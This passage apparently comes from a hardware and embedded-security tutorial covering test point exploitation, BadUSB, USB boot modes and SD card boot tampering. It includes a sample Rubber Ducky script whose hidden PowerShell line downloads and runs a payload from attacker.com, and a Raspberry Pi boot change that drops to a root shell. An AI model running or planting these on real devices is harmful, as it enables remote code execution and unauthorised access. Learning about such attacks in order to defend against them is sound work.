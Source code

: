 2. **Common Test Point Types**
   - Programming interfaces
   - Factory testing connections
   - In-circuit test points
   - Power measurement points

3. **Exploitation Examples**
   - Accessing hidden functions via test commands
   - Bypassing firmware verification
   - Enabling disabled features

## External Media and Interface Attacks

### USB-based Attacks

1. **BadUSB Techniques**
   - USB device firmware reprogramming
   - Device type spoofing (keyboard, storage, etc.)
   - Command injection via HID emulation

2. **USB Boot Vulnerabilities**
   - Forced recovery mode booting
   - DFU (Device Firmware Update) mode exploitation
   - Boot sequence interruption

3. **Example: USB Rubber Ducky Attack**
   ```
   # Sample Ducky Script payload
   DELAY 3000
   GUI r
   DELAY 200
   STRING cmd.exe
   ENTER
   DELAY 200
   STRING powershell -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
   ENTER
   ```

### SD Card and Storage Media

1. **Boot Media Manipulation**
   - Modified boot files
   - Custom initialization scripts
   - Configuration file tampering

2. **Storage-based Attacks**
   - Fake filesystem structures
   - Hidden partitions for persistence
   - File inclusion attacks

3. **Practical Example: Raspberry Pi Boot Hijacking**
   ```
   # Add to config.txt on SD card
   init=/bin/sh
   
   # Alternative: Modify cmdline.txt
   ... rw init=/bin/bash
   ```
